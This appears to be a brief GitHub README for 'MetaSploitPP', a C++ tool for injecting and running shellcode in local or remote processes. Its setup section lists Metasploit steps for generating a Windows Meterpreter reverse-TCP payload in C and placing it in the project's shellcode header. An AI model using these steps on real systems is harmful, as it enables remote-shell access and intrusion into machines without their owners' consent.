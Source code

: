 ## MetaSploitPP
<img src="https://www.diegomacedo.com.br/wp-content/uploads/2016/09/Metasploit-msf.png"/>

This project lets you execute shellcode (CPP) In Local or remote processes.  
## Setup

```
windows/meterpreter/reverse_tcp
generate -f c
Place your generated shell code in Shellcode.h

```